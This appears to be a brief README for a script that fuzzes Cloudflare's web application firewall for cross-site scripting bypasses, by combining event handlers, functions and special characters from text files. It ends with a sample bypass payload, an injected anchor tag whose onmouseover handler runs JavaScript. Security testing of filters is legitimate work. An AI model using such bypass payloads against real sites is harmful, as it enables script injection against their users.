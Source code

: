 # Steps

1. Add neccessary event handlers ine eventhandlers.txt
2. Add neccessary functions in functions.txt
3. Add neccessary special characters in special_chars.txt
4. Run command -> python3 cloudflaretest.py

# Bonus : XSS WAF Bypass Payload
"><a%20href="#"onmouseover="window.print()">xss</a>
